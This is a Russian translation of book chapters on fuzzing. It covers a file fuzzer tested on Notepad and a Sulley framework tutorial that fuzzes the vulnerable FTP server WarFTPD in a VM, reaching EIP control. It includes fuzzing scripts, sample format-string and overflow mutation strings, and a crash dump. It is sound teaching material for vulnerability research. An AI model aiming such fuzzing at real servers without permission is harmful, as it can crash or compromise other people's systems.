Лучший способ, который мне пришел в голову, чтобы протестировать на работоспособность файловый фаззер – это испытать его на целевом приложении, наблюдая за результатами мутации в действии. Не существует лучшего способа протестировать фаззинг текстовых файлов, чем использование Windows Notepad в качестве тестового приложения. Используя этот способ можно видеть изменения текста на каждой итерации, вместо того чтобы использовать для этих целей hex-редактор или утилиту двоичного сравнения (binary diffing tool). Прежде чем начать, создайте папку examples и папку crashes, в той же директории из которой вы будете запускать скрипт file\_fuzzer.py. После создания каталогов, создайте и разместите несколько фиктивных тестовых файлов в папке examples. Для запуска фаззера, используйте следующую командную строку:

Код:
%% python file_fuzzer.py -e C:\\WINDOWS\\system32\\notepad.exe -x .txt
После чего начнет запускаться Notepad, и вы сможете видеть, как ваши тестовые файлы изменяются. Убедившись, что файлы изменяются соответствующим образом, можно взять файловый фаззер и протестировать его на любом другом целевом приложении. Позвольте закончить главу некоторыми соображениями касаемыми будущего развития для этого фаззера.


8.3 Соображения

Хотя мы создали фаззер, который может найти некоторые багги, при наличии достаточного времени, есть ряд возможных улучшений, которые вы могли бы реализовать (по желанию). Думайте об этом как о возможном домашнем задании.

8.3.1 Code Coverage

Покрытие кода (code coverage) – это метрика, которая измеряет, сколько выполнилось кода целевой программы во время ее тестирования. Эксперт по фаззингу Чарли Миллер (Charlie Miller) опытным путем доказал, что увеличение покрытия кода приведет к увеличению числа найденных ошибок [2]. Мы не можем не согласиться с капитанской логикой! Простой способ, который вы можете использовать для измерения покрытия кода, заключается в том, чтобы использовать любой из выше упомянутых отладчиков и установить программные брейкпойнты (soft breakpoints) на все функции в нутрии тестируемого приложения. Простое сохранение счетчика того, сколько функций попало в каждый тест – даст вам представление о том, насколько эффективен ваш фаззер в рамках тестируемого приложения. Есть и более сложные примеры, реализации покрытия кода, которые вы вправе применять к вашему фаззеру.

8.3.2 Automated Static Analysis

Автоматизированный статический анализ двоичных файлов для нахождения горячих точек в целевом коде может быть чрезвычайно полезным для багхантера. Что-то столь же простое, как отслеживание всех вызовов функций, которые обычно не правильно используются (например, strcpy) и мониторинг за их вызовами, может дать положительные результаты. Более продвинутый статический анализ мог бы помочь в поиске других интересных участков. Чем больше ваш фаззер знает о тестируемой программе, тем больше у него шансов найти ошибки.

Все выше – это только некоторые из улучшений, которые можно применить к созданному файловому фаззеру или любому другому фаззеру, который вы создадите в будущем. Когда будете создавать собственный фаззер, очень важно создать его достаточно расширяемым, чтобы можно было добавлять новую функциональность в будущем. Вы удивитесь, как часто вы будете доставать все тот же фаззер, в течении долгого времени, и вы будете благодарить себя за небольшую работу, проделанную над дизайном фронтэнда, благодаря которому можно легко вносить изменения в будущем. Теперь, когда мы самостоятельно создали простой файловый фаззер, пришло время перейти к использованию Sulley, Python-ориентированного фреймворка для фаззинга, созданного Педрамом Амини (Pedram Amini) и Араном Портным (Aaron Portnoy) из TippingPoint. После этого мы перейдем к фаззеру ioctlizer, написанному мной, который предназначен для нахождения ошибок в подпрограммах управления вводом-выводом (I/O Control Routines), которые используются во множестве драйверах Windows.


© Translated by Prosper-H from r0 Crew


[1] An excellent reference book, and one you should definitely add to your bookshelf, is Mark Dowd, John McDonald, and Justin Schuh’s The Art of Software Security Assessment: Identifying and Preventing Software Vulnerabilities (Addison-Wesley Professional, 2006).

[2] Charlie gave an excellent presentation at CanSecWest 2008 that illustrates the importance of code coverage when bughunting. See http://cansecwest.com/csw08/csw08-miller.pdf. This paper was part of a larger body of work Charlie co-authored. See Ari Takanen, Jared DeMott, and Charlie Miller, Fuzzing for Software Security Testing and Quality Assurance (Artech House Publishers, 2008).

\chapter{Sulley}


Sulley, названный в честь большого синего монстра из фильма "Корпорация монстров" (Monster, Inc.), является мощным фаззинг фреймворком, который написан на Python. Его разработчиками являются Pedram Amini и Aaron Portnoy из TippingPoint. Sulley – больше чем простой фаззер; он поставляется со множеством возможностей, которые помимо всего прочего включают информативные отчеты и встроенную поддержку взаимодействия с VMware. Он также способен перезапускать тестируемое приложение после сбоев, таким образом, чтобы сессия фаззинга могла продолжить поиск ошибок без остановок. Короче, Sulley – крутой (badass).

Для генерации данных, Sulley использует блоковый подход (block-bassed), тот же самый, что и Dave Aitel использовал в SPIKE [1], первом публичном фаззере использующем этот подход. В подходе, основанном на блоках, описывается общий скелет протокола или формат файла, который вы собрались фаззить, назначая длины и типы данных для полей, которые нужно проверить. После чего, фаззер берет свой внутренний список тест-кейсов и применяет его различными способами для скелета протокола, который вы создали. Этот подход оказался очень эффективным средством для поиска ошибок, потому что фаззер, заранее, получает информацию о строении протокола, который он фаззит.

Для начала мы рассмотрим необходимые шаги, позволяющие установить и настроить Sulley. Затем мы рассмотрим примитивы, которые Sulley использует для создания описаний протокола. Далее мы перейдем к запуску фаззинга, перехвату сетевых пакетов и построению отчетов информирующих о сбоях (crash reporting). Нашей целью фаззинга будет WarFTPD, FTP демон, уязвимый к переполнению стеку. Фаззеро-писателям и тестерам свойственно барть известную уязвимость и проверить, находит ли их фаззер ошибки или нет. В нашем случае, мы будем использовать WarFTPD, чтобы показать, как работает Sulley от начала и до конца. Не стесняйтесь обращаться к руководству Sulley [2], в котором Pedram и Aaron дали детальные инструкции, а также предоставили обширную информацию по всему фреймворку. Давайте приступим к фаззингу! 


9.1 Установка

Прежде, чем мы углубимся в изучение строения Sulley, давайте установим и запустим его. Я подготовил zip-архив с исходным кодом Sulley, который можно загрузить по следующему адресу:

http://www.nostarch.com/ghpython.htm

Как только вы загрузите zip-архив, распакуйте его в любую папку. В папке, куда вы распаковали архив, найдите директорию Sulley и скопируйте из нее папки sulley, utils, и requests в каталог "C:\\Python25\\Lib\\site-packages\\". Это все, что требуется для установки ядра Sulley. Однако есть еще несколько необходимых пакетов, которые мы должны установить.

Первый необходимый пакет – это WinPcap, который является стандартной библиотекой, облегчающей перехват сетевых пакетов на Windows ориентированных машинах. WinPcap используется всеми видами сетевых инструментов и системами обнаружения вторжения. Эта библиотека требуется Sulley для записи сетевого трафика во время выполнения фаззинга. Просто загрузите и запустите инсталлер по следующему адресу:

http://www.winpcap.org/install/bin/WinPcap\_4\_0\_2.exe

После того, как вы установили WinPcap, нужно установить еще две библиотеки: pcapy и impacket, обе поддерживаются CORE Security. Pcap предоставляет Python интерфейс к ранее установленному WinPacp, а impacket является библиотекой, для создания и декодирования сетевых пакетов, которая также написана на Python. Для установки pcapy – загрузите и запустите инсталлер по следующему адресу:

http://oss.coresecurity.com/repo/pca...in32-py2.5.exe

После установки pcapy – загрузите impacket по следующему адресу:

http://oss.coresecurity.com/repo/Impacket-stable.zip

Распакуйте zip-архив в корень диска "C:\\", перейдите в директорию impacket и выполните следующую команду:
Код:
%% C:\Impacket-stable\Impacket-0.9.6.0> C:\Python25\python.exe setup.py install
Это установит impacket, после чего вы будите полностью готовы к использованию Sulley.


9.2 Примитивы

Вначале, при выборе тестируемого приложения, нам нужно определить все стандартные блоки, которые представляют протокол, который мы собираемся фаззить. Sulley поставляется с большим количеством подобных блоков, которые позволяют быстро создать простые и сложные описания протокола. Эти блоки называют примитивами (primitives). Мы кратко рассмотрим примитивы, требуемые для полного фаззинга сервера WarFTPD. После того, как вы разберетесь с использованием основных примитивов, использование других примитивов не вызовет проблем.

9.2.1 Strings

Строки являются наиболее распространенными примитивами, которые вы будете использовать. Строки можно найти повсюду: имена пользователей, IP-адреса, папки и многие другие вещи, которые можно представить виде строк. Sulley использует директиву s\_string(), чтобы обозначить, что данные, которые находятся в примитиве являются строкой. Основным параметром, принимаемым директивой s\_string(), является допустимое значение строки, которое будет принято, как обычный ввод (input) для протокола. Например, если бы мы фаззили весь адрес электронной почты, то мы могли бы использовать следующую запись:
Код:
%% s_string("justin@immunityinc.com")
Она говорит Sulley, что justin@immunityinc.com является допустимым значением, таким образом, будет происходить фаззинг заданной строки, до тех пор, пока не будут исчерпаны все разумные вариации. Когда же все возможные вариации будут исчерпаны, Sulley, вернется к использованию исходного допустимого значения, которое вы определили. Некоторые возможные значения, которые Sulley смог сгенерировать, используя мой email, представлены ниже:
Код:
%% justin@immunityinc.comAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
%% justin@%n%n%n%n%n%n.com%d%d%d@immunityinc.comAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA9.2.2 Delimiters

Разделители являются не чем иным, как маленькими строками, которые помогают разделить большие строки на управляемые части. Применив директиву s\_delim() к используемому нами в предыдущем примере, email-адресу – получим следующую запись для дальнейшего фаззинга:
Код:
%% s_string("justin")
%% s_delim("@")
%% s_string("immunityinc")
%% s_delim(".",fuzzable=False)
%% s_string("com")
Вы можете видеть, как мы разбили email-адрес на субкомпоненты и сказали Sulley, что в нашем, конкретном, случае мы не хотим фаззить точку ".", но хотим фаззить разделитель "@". 

9.2.3 Примитивы Static и Random

В Sulley существует возможность задания строк – с изменяемыми, случайным образом (random) данными и не изменяемыми (static). Чтобы использовать статическую строку, нужно использовать директиву s\_static(), как показано ниже:
Код:
%% s_static("Hello,world!")
%% s_static("\x41\x41\x41")
Для генерации случайных данных переменной длины, используйте директиву s\_random(). Обратите внимание на то, что директиве требуется несколько дополнительных параметров для того, чтобы Sulley смог определить, как много данных должно быть сгенерировано. Параметр min\_length и max\_length определяют минимальную и максимальную длину данных, создаваемых на каждой последующей итерации. Так же может быть полезен дополнительный параметр num\_mutations, который определяет, сколько раз должна изменяться строка, прежде чем вернуться к исходному (оригинальному) значению; по умолчанию этот параметр равен 25 итерациям. Пример использования:
Код:
%% s_random("Justin",min_length=6, max_length=256, num_mutations=10)
В данном примере будут генерироваться случайные данные, которые будут не менее 6 байт и не более 256 байт. Строка будет изменяться 10 раз, до возвращения к первоначальному значению "Justin".

9.2.4 Binary Data

В Sulley примитив бинарных данных подобен Швейцарскому ножу. Вы можете вставлять в него практически любые бинарные данные. Sulley, успешно распознает их. Это особенно полезно, когда у вас есть перехваченный пакет неизвестно протокола, а вам всего лишь нужно проверить реакцию сервера на полу-сформированные данные, которые вы отправляете ему. Для двоичных данных используйте директиву s\_binary(), например, так:
Код:
%% s_binary("0x00 \\x41\\x42\\x43 0d 0a 0d 0a")
Все эти форматы будут распознаны соответствующим образом и будут использоваться как любая другая строка во время выполнения фаззинга. 

9.2.5 Integers

Целые числа повсюду и используются как в бинарных, так и в текстовых протоколах для определения длины данных, предоставления структур данных и т.п. Sulley поддерживает все основные целочисленные типы данных (см. Листинг 9-1).

Листинг 9-1: Различные типы целочисленных данных поддерживаемые Sulley
Код:
%% 1 byte – s_byte(), s_char()
%% 2 bytes – s_word(), s_short()
%% 4 bytes – s_dword(), s_long(), s_int()
%% 8 bytes – s_qword(), s_double()
Все целочисленные примитивы принимают важные дополнительные параметры.
Параметр endian определяет порядок следования байтов, в котором заданное число должно быть представлено. Прямой порядок определяется символом ``>'', обратный ``<''. По умолчанию установлен обратный порядок байтов ``<''.
Параметр format имеет два возможных значения "binary" и "ascii". Он определяет то, как будет использоваться число. Например, число "1" в ASCII формате, будет представлено как "\\x31" в бинарном формате.
Параметр signed определяет, будет ли использоваться число со знаком или нет. Он применим только, когда используется параметр format со значением ascii. Сам параметр представляет собой булево значение и по умолчанию равен False.
Параметр full\_range определяет, будет ли Sulley проходить по всем возможным значениям целочисленного числа, которое вы фаззите. Параметр представляет собой булево значение и по умолчанию равен False. Это наиболее интересный флаг из всех перечисленных. Используйте этот флаг рассудительно, потому что его использование может занять очень продолжительное время, поскольку потребует прохода через все значения целого числа. Sulley достаточно умен, чтобы не делать этого, а проверить пограничные значения (значения, которые лежат рядом или равны наибольшим или наименьшим значениям). Например, если наивысшее целочисленное значение без знака может быть равно 65,535, то Sulley может попробовать проверить такие пограничные значения как: 65,534, 65,535, 65,536. По умолчанию параметр full\_range равен False, что означает, что вы оставляете выбор значений за Sulley. И лучше, как правило, его оставлять таким и не менять.
Ниже даны примеры, некоторых целочисленных примитивов:
Код:
%% s_word(0x1234, endian=">", fuzzable=False)
%% s_dword(0xDEADBEEF, format="ascii", signed=True)
В первом примере мы устанавливаем 2-х байтовое значение в 0x1234, зеркально отражая его в прямой порядок следования байтов ``>'' и оставляем его как статическое значение. Во втором примере мы устанавливаем 4-х байтное DWORD значение в 0xDEADBEEF и делаем его целочисленным числом в ASCII формате.

9.2.6 Blocks и Groups

Блоки и группы являются мощным средством, которое Sulley предоставляет для объединения примитивов. Блоки, предназначены для объединения отдельного набора примитивов в структуры. Группы, предназначены для объединения блоков. Причем, каждое из фаззинговых значений, присвоенных группе, применяется к каждому блоку, входящему в нее. 

В документации, предлагается следующий пример, фаззинга HTTP, где используются блоки и группы:
Код:
%% # import all of Sulley's functionality.

%% from sulley import *
%% # this request is for fuzzing: {GET,HEAD,POST,TRACE} /index.html HTTP/1.1
%% # define a new block named "HTTP BASIC".

%% s_initialize("HTTP BASIC")

%% # define a group primitive listing the various HTTP verbs we wish to fuzz.
%% s_group("verbs", values=["GET", "HEAD", "POST", "TRACE"])

%% # define a new block named "body" and associate with the above group.
%% if s_block_start("body", group="verbs"):

%% # break the remainder of the HTTP request into individual primitives.
%%     s_delim(" ")
%%     s_delim("/")
%%     s_string("index.html")
%%     s_delim(" ")
%%     s_string("HTTP")
%%     s_delim("/")
%%     s_string("1")
%%     s_delim(".")
%%     s_string("1")

%%     # end the request with the mandatory static sequence.
%%     s_static("\r\n\r\n")

%% # close the open block, the name argument is optional here.
%% s_block_end("body")
Мы видим, что парни из TippingPoint определили группу verbs в которую входят все общие типы запросов HTTP. Затем они определили блок body, который связывается с группой verbs. Это значит, что каждое значение из verbs (GET, HEAD, POST, TRACE), будет применено ко всем мутациям блока body. Таким образом, Sulley производит тщательный фаззинг протокола HTTP, задействовав все основные типы запросов. 

Теперь, когда мы рассмотрели основы, можно перейти к фаззингу с использованием Sulley. В Sulley содержится гораздо больше возможностей, чем те, которые были рассмотрены нами, например: кодировщики данных (data encoders), калькуляторы контрольных сумм (checksum calculator), автоматический подсчет размера данных (automatic data sizes) и др. Для всестороннего рассмотрения Sulley и материала связанного с фаззингом, обратитесь к книге, соавтором которой был Pedram, Fuzzing: Brute Force Vulnerability Discovery (Addison-Wesley, 2007) (Прим. пер. Есть русский вариант «Fuzzing: Исследование уязвимостей методом грубой силы»). Теперь давайте приступим к фаззингу WarFTPD. Вначале мы создадим наборы примитивов, а затем перейдем к созданию сессии, которая будет ответственна за управление тестами. 


9.3 Уничтожение WarFTPD с помощью Sulley

Теперь, когда вы владеете общим представлением того, как создать описание протокола, используя примитивы Sulley, давайте применим имеющиеся знания к реальной программе, WarFTPD 1.65. В этой программе имеется переполнения стека, которое возникает при передаче очень больших значений в командах USER или PASS. Обе эти команды используются для аутентификации FTP-пользователя на сервере, чтобы он в дальнейшем мог выполнять операции передачи файлов, между своим компьютером и сервером, где запущен FTP-демон. Загрузите WarFTPD по следующей ссылке:

http://www.warftp.org/files/1.6\_Series/ward165.exe

Затем запустите инсталлер. Это разархивирует WarFTPD в текущий рабочий каталог; после чего вам нужно просто выполнить warftpd.exe, чтобы запустить сервер. Давайте бросим беглый взгляд на FTP-протокол для того, чтобы вы поняли основную структуру протокола, прежде чем описывать его в Sulley.

9.3.1 FTP 101

FTP – это очень простой протокол, который используется для передачи данных из одной системы в другую. Он широко используется в различных средах, начиная с веб-серверов и заканчивая современными сетевыми принтерами. По умолчанию FTP-сервер прослушивает 21 TCP порт и получает команды от FTP-клиента. Мы будем действовать как FTP-клиент, который будет отправлять модифицированные FTP-команды в попытке повредить тестируемый FTP-сервер. Не смотря на то, что мы будем тестировать только WarFTPD, вы сможете взять наш FTP-фаззер и атаковать любой другой FTP-сервер, какой вы захотите!

Любой FTP-сервер настроен либо позволять анонимным пользователям соединяться с сервером, либо требует от них аутентифицироваться. Так как мы знаем, что ошибка WarFTPD связанна с переполнением буфера в командах USER и PASS (обе используются для аутентификации), то мы будем считать, что требуется аутентификация. Формат для этих FTP-комманд выглядит следующим образом:
Код:
%% USER <USERNAME>
%% PASS <PASSWORD>
После того, как вы ввели правильное имя и пароль, сервер позволит вам использовать полный набор команд для: передачи файлов, изменения каталогов, запросов к файловой системе и др. Так как команды USER и PASS является всего лишь небольшим подмножеством всех возможностей FTP-сервера, давайте добавим еще несколько команд, чтобы проверить наличие других ошибок, после того, как мы аутентифицировались. Взгляните на Листинг 9-2, чтобы видеть, какие дополнительные команды мы включим в описание скелета протокола. Чтобы получить полное представление о всех командах, которые поддерживает FTP-протокол, пожалуйста, обратитесь к RFC [3].

Листинг 9-2: Дополнительные FTP-команды, которые мы собираемся фаззить
Код:
%% CWD <DIRECTORY> - change working directory to DIRECTORY
%% DELE <FILENAME> - delete a remote file FILENAME
%% MDTM <FILENAME> - return last modified time for file FILENAME
%% MKD <DIRECTORY> - create directory DIRECTORY
Это далеко не полный список, но он даст вам некоторое дополнительное представление о протоколе… Давайте возьмем то, что мы уже знаем и преобразуем эти знание в описание скелета протокола для Sulley.

9.3.2 Создание скелета FTP-протокола

Мы воспользуемся знаниями о примитивах, чтобы превратить Sulley в дробильную машину FTP-сервера. Откройте свой любимый редактор кода, создайте новый фал, назвав его ftp.py и введите следующий код:

ftp.py
Код:
%% from sulley import *

%% s_initialize("user")
%% s_static("USER")
%% s_delim(" ")
%% s_string("justin")
%% s_static("\r\n")

%% s_initialize("pass")
%% s_static("PASS")
%% s_delim(" ")
%% s_string("justin")
%% s_static("\r\n")

%% s_initialize("cwd")
%% s_static("CWD")
%% s_delim(" ")
%% s_string("c: ")
%% s_static("\r\n")

%% s_initialize("dele")
%% s_static("DELE")
%% s_delim(" ")
%% s_string("c:\\test.txt")
%% s_static("\r\n")

%% s_initialize("mdtm")
%% s_static("MDTM")
%% s_delim(" ")
%% s_string("C:\\boot.ini")
%% s_static("\r\n")

%% s_initialize("mkd")
%% s_static("MKD")
%% s_delim(" ")
%% s_string("C:\\TESTDIR")
%% s_static("\r\n")
С созданием скелета протокола покончено. Теперь давайте перейдем к созданию фаззинговой сессии, которая свяжет всю имеющуюся информацию, а также настроит сетевой снифер и отладчик (debugging client). 

9.3.3 Sulley Sessions

Сессии в Sulley является механизмом, который связывает фаззинговые запросы и заботится о: перехвате сетевых пакетов, отладке процесса, создании отчетов об ошибках и управлении виртуальной машинной. Для начала, давайте создадим файл для управления сессией, а затем разберем различные его части. Создайте новый файл Python, назвав его ftp\_session.py и введите следующий код:

ftp\_session.py
Код:
%% from sulley import *
%% from requests import ftp # this is our ftp.py file

%% (#1): def receive_ftp_banner(sock):
%% sock.recv(1024)

%% (#2):  sess = sessions.session(session_filename="audits/warftpd.session")
%% (#3):  target = sessions.target("192.168.244.133", 21)
%% (#4):  target.netmon = pedrpc.client("192.168.244.133", 26001)
%% (#5):  target.procmon = pedrpc.client("192.168.244.133", 26002)
%% target.procmon_options = { "proc_name" : "war-ftpd.exe" }

%% # Here we tie in the receive_ftp_banner function which receives
%% # a socket.socket() object from Sulley as its only parameter
%% sess.pre_send = receive_ftp_banner
%% (#6):  sess.add_target(target)
%% (#7):  sess.connect(s_get("user"))
%% sess.connect(s_get("user"), s_get("pass"))
%% sess.connect(s_get("pass"), s_get("cwd"))
%% sess.connect(s_get("pass"), s_get("dele"))
%% sess.connect(s_get("pass"), s_get("mdtm"))
%% sess.connect(s_get("pass"), s_get("mkd"))

%% sess.fuzz()
Функция receive\_ftp\_banner() (\#1) необходима, потому что каждый FTP-сервер имеет баннер, который он отображает при подключении клиента. Мы связываем эту функцию со свойством sess.pre\_send, которое говорит Sulley получить FTP-баннер до отправки каких-либо фаззинговых данных. Также свойство pre\_send передает действительный объект сокета Python, так что наша функция принимает его в качестве единственного параметра. На первом шаге, при создании сессии, нужно определить файл сессии (\#2), который будет отслеживать текущее состояние фаззера. Этот постоянный файл позволяет запускать и останавливать фаззер, когда нам угодно. На втором шаге (\#3) нужно определить цель для атаки, которая представляет собой IP-адрес и номер порта. Мы будем атаковать адрес 192.168.244.133 и порт 21, на котором находится наш WarFTPD (запущенный в нутрии виртуальной машины в нашем случае). Третий шаг (\#4) говорит Sulley, что наш снифер установлен на том же самом компьютере и слушает TCP-порт 26001, который является портом, на котором он принимает команды от Sulley. Четвертый шаг (\#5) говорит Sulley, что наш отладчик тоже установлен на компьютере с адресом 192.168.244.133, но прослушивает TCP-порт 26002; и также как и со снифером, Sulley использует этот порт для отправки команд отладчику. Мы также передаем дополнительную опцию, которая говорит отладчику, что имя процесса, которым мы интересуемся, является war-ftpd.exe. Затем добавляем настройки для тестируемого приложения в нашу сессию (\#6). Следующий шаг (\#7) должен связать наши FTP-запросы вместе, придав им логическую форму. Можно видеть, как мы объединили в цепочку команды аутентификации (USER, PASS), а затем все остальные команды, которые требуют от пользователя быть аутентифицированным, мы присоединили к команде PASS. В заключение, говорим Sulley начать фаззинг.

Теперь у нас есть полностью определенная сессия с хорошим набором запросов, поэтому давайте посмотрим, как установить наши network и monitor скрипты. Как только закончим делать это, мы будем готовы запустить Sulley и посмотреть, что он сможет сделать с нашим подопытным WarFTPD.

9.3.4 Network и Process Monitoring

Одной из самых приятных особенностей Sulley является его способность мониторить фаззинговый тарифик проходящий по сети, а также его способность обрабатывать любые критические ошибки (crashes), которые происходят на целевой системе. Это очень важно, потому что можно соотнести сетевой трафик с возникшей ошибкой, наложив временные метки одного на другой, что значительно сокращает время, необходимое для перехода от бага до рабочего эксплойта.

Агенты network-monitor и process-monitor являются Python сценариями, которые поставляются с Sulley. С ними очень легко работать. Давайте начнем с process-monitor (process\_monitor.py), который расположен в основном каталоге Sulley. Просто запустите его, чтобы увидеть справочную информацию:
Код:
%% python process_monitor.py

%% Output:

%% ERR> USAGE: process_monitor.py
%%      <-c|--crash_bin FILENAME> filename to serialize crash bin class to
%%      [-p|--proc_name NAME] process name to search for and attach to
%%      [-i|--ignore_pid PID] ignore this PID when searching for the target process
%%      [-l|--log_level LEVEL] log level (default 1), increase for more verbosity
%%      [--port PORT] TCP port to bind this agent to
%% Мы будем выполнять скрипт process_monitor.py со следующими параметрами командной строки:
%% Код:
%% python process_monitor.py -c C:\warftpd.crash -p war-ftpd.exe
ЗАМЕЧАНИЕ: По умолчанию он связывается с TCP-портом 26002, поэтому мы не будем изменять опцию --port.
Теперь мы контролируем (monitoring) наш целевой процесс, поэтому давайте рассмотрим скрипт network\_monitor.py. Для его работы требуется несколько обязательных библиотек, таких как: WinPcap 4.0 [4], pcapy [5] и impacket [6]. Все они предоставляют инструкции по установке, которые расположены на их официальных сайтах. 
Код:
%% python network_monitor.py

%% Output:

%% ERR> USAGE: network_monitor.py
%%      <-d|--device DEVICE #> device to sniff on (see list below)
%%      [-f|--filter PCAP FILTER] BPF filter string
%%      [-P|--log_path PATH] log directory to store pcaps to
%%      [-l|--log_level LEVEL] log level (default 1), increase for more verbosity
%%      [--port PORT] TCP port to bind this agent to

%% Network Device List:
%%      [0] \Device\NPF_GenericDialupAdapter
%%      (#1): [1] {83071A13-14A7-468C-B27E-24D47CB8E9A4} 192.168.244.133
После того, как мы запустили скрипт мониторинга процесса (process\_monitor.py), нам нужно просто передать этому (network\_monitor.py) скрипту несколько допустимых параметров. Видно, что сетевой интерфейс, который мы хотим использовать (\#1) установлен в "[1]" на выходе. Мы передадим его, когда определим параметры командной строки для network\_monitor.py так, как показано тут:
Код:
%% python network_monitor.py -d 1 -f "src or dst port 21" -P C:\pcaps\
ЗАМЕЧАНИЕ: Вы должны создать C:\\pcaps до запуска network\_monitor.py. Выберите легко запоминающееся имя каталога.
Теперь у нас есть оба работающих агента мониторинга, и мы готовы начать фаззинг. Давайте перейдем к заключительной части.

9.3.5 Фаззинг и веб-интерфейс Sulley

Теперь мы готовы запустить Sulley. Мы будем использовать веб-интерфейс, чтобы следить за процессом фаззинга. Для начала запустите ftp\_session.py, следующим образом:
Код:
%% python ftp_session.py
%% Он начнет производить вывод так, как показано тут:
%% Код:
%% [07:42.47] current fuzz path: -> user
%% [07:42.47] fuzzed 0 of 6726 total cases
%% [07:42.47] fuzzing 1 of 1121
%% [07:42.47] xmitting: [1.1]
%% [07:42.49] fuzzing 2 of 1121
%% [07:42.49] xmitting: [1.2]
%% [07:42.50] fuzzing 3 of 1121
%% [07:42.50] xmitting: [1.3]
Если вы видите то же самое у себя, значит все отлично. Sulley усердно отправляет данные демону WarFTPD, и если он не сообщил о каких-либо ошибках, то это значит, что процесс коммуникация между нашими агентами протекает успешно. Теперь давайте посмотрим на веб-интерфейс, который дает нам еще больше информации.

Откройте ваш любимый браузер и перейдите по следующей ссылке http://127.0.0.1:26000. Вы должны увидеть похожий экран, как на Рисунке 9-1.




Рисунок 9-1: Веб-интерфейс Sulley

Чтобы видеть обновления веб-интерфейса, обновите страницу браузера, и он покажет какой тест-кейс, и какой примитив в данный момент обрабатывается фаззером. На Рисунке 9-1 вы можете видеть, что происходит фаззинг пользовательских примитивов (прим. пер. Не для всех очевидно, поэтому подсказываю. Вывод сделан на основании строки "user: 29 of 1,121"), которые, как мы знаем, должны давать сбои (crash). Через некоторое время, если продолжите обновлять браузер, то вы должны увидеть экран веб-интерфейса очень похожий на тот, что изображен на Рисунке 9-2.




Рисунок 9-2: Веб-интерфейс Sulley отображающий информацию о сбоях

Отлично! Мы сумели вызвать ошибку в WarFTPD, и Sulley собрал всю уместную информацию о ней. В обоих тест-кейсах мы видим, что WarFTPD не смог дизассемблировать инструкцию по адресу 0x5c5c5c5c. Отдельный байт 0x5c представляет ASCII символ "\\", поэтому можно с уверенностью предположить, что мы полностью переписали буфер с помощью последовательности символов "\\". Когда наш отладчик не смог дизассемблировать данные по адресу, на который указывал EIP, это вызвало фолт (failed), так как 0x5c5c5c5c не является допустимым адресом. Это наглядно демонстрирует возможность управления регистром EIP, что означает, что мы нашли эксплуатируемую ошибку! Не стоит слишком радоваться, поскольку мы нашли ошибку, о которой знали, что она там есть. Но это показывает, что наши навыки использования Sulley достаточно хороши, так что теперь мы можем применить разработанные FTP-примитивы к другим программам и возможно найти там новые ошибки. 

Если вы сейчас нажмете на номер тест-кейса, то вы должны увидеть более подробную информацию о сбое, как показано в Листинге 9-3:

Отчеты об ошибках, генерируемые PyDbg, были рассмотрены в "Access Violation Handlers" в Главе 4.2. Обратитесь к этому разделу, если вам не понятны значения, которые вы видите.

Листинг 9-3: Подробный отчет об ошибке для теста \#437
Код:
%% [INVALID]:5c5c5c5c Unable to disassemble at 5c5c5c5c from thread 252
%% caused access violation when attempting to read from 0x5c5c5c5c
%% CONTEXT DUMP
%%     EIP: 5c5c5c5c Unable to disassemble at 5c5c5c5c
%%     EAX: 00000001 ( 1) -> N/A
%%     EBX: 5f4a9358 (1598722904) -> N/A
%%     ECX: 00000001 ( 1) -> N/A
%%     EDX: 00000000 ( 0) -> N/A
%%     EDI: 00000111 ( 273) -> N/A
%%     ESI: 008a64f0 ( 9069808) -> PC (heap)
%%     EBP: 00a6fb9c ( 10943388) -> BXJ_\'CD@U=@_@N=@_@NsA_@N0GrA_@N*A_0_C@N0_Ct^J_@_0_C@N (stack)
%%     ESP: 00a6fb44 ( 10943300) -> ,,,,,,,,,,,,,,,,,, cntr User from 192.168.244.128 logged out (stack)
%%     +00: 5c5c5c5c ( 741092396) -> N/A
%%     +04: 5c5c5c5c ( 741092396) -> N/A
%%     +08: 5c5c5c5c ( 741092396) -> N/A
%%     +0c: 5c5c5c5c ( 741092396) -> N/A
%%     +10: 20205c5c ( 538979372) -> N/A
%%     +14: 72746e63 (1920233059) -> N/A

%% disasm around:
%%     0x5c5c5c5c Unable to disassemble

%% stack unwind:
%%     war-ftpd.exe:0042e6fa
%%     MFC42.DLL:5f403d0e
%%     MFC42.DLL:5f417247
%%     MFC42.DLL:5f412adb
%%     MFC42.DLL:5f401bfd
%%     MFC42.DLL:5f401b1c
%%     MFC42.DLL:5f401a96
%%     MFC42.DLL:5f401a20
%%     MFC42.DLL:5f4019ca
%%     USER32.dll:77d48709
%%     USER32.dll:77d487eb
%%     USER32.dll:77d489a5
%%     USER32.dll:77d4bccc
%%     MFC42.DLL:5f40116f

%% SEH unwind:
%%     00a6fcf4 -> war-ftpd.exe:0042e38c mov eax,0x43e548
%%     00a6fd84 -> MFC42.DLL:5f41ccfa mov eax,0x5f4be868
%%     00a6fdcc -> MFC42.DLL:5f41cc85 mov eax,0x5f4be6c0
%%     00a6fe5c -> MFC42.DLL:5f41cc4d mov eax,0x5f4be3d8
%%     00a6febc -> USER32.dll:77d70494 push ebp
%%     00a6ff74 -> USER32.dll:77d70494 push ebp
%%     00a6ffa4 -> MFC42.DLL:5f424364 mov eax,0x5f4c23b0
%%     00a6ffdc -> MSVCRT.dll:77c35c94 push ebp
%%     ffffffff -> kernel32.dll:7c8399f3 push ebp
В этом разделе мы изучили некоторые основные функции, а также рассмотрели часть вспомогательных функций, которые предоставляет Sulley. В поставку Sulley входит намного больше количество вспомогательных функций, чем те которые мы рассмотрели. Вы уже сразили вашего первого демона с использованием Sulley и он должен стать ключевой частью в вашем арсенале охотника за багами. Теперь, когда вы знаете, как фаззить удаленные сервера, давайте перейдем к локальному фаззингу, а именно к фаззингу драйверов Windows. На этот раз мы создадим собственный фаззер. 


© Translated by Prosper-H from r0 Crew


[1] For the SPIKE download, go to:
http://immunityinc.com/resources-freesoftware.shtml

[2] To download the Sulley: Fuzzing Framework manual, go to: http://www.fuzzing.org/wp-content/SulleyManual.pdf

[3] See RFC959—File Transfer Protocol: 
http://www.faqs.org/rfcs/rfc959.html

[4] The WinPcap 4.0 download is available at: http://www.winpcap.org/install/bin/WinPcap\_4\_0\_2.exe

[5] See CORE Security pcapy:
http://oss.coresecurity.com/repo/pca...in32-py2.5.exe

[6] Impacket is a requirement for pcapy to function; see http://oss.coresecurity.com/repo/Impacket-0.9.6.0.zip

\chapter{Фаззинг драйверов Windows}

